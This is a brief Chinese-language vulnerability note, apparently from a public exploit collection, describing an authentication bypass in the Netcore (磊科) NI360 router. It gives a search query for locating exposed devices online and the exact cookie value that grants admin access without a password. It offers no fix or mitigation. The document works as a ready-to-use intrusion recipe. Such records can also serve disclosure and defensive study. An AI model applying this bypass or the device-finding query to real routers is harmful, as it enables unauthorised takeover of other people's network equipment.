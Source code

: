 # 磊科 NI360路由器 认证绕过漏洞

## 漏洞描述

磊科 NI360路由器 存在认证绕过漏洞，通过添加特定的Cookie字段获取后台权限

## 漏洞影响

```
磊科 NI360路由器
```

## 网络测绘

```
title="Netcore"
```

## 漏洞描述

登录页面如下

![](images/202202110949810.png)

添加 Cookie字段 : **netcore_login=guest:1**

刷新后登录后台

![](images/202202110949667.png)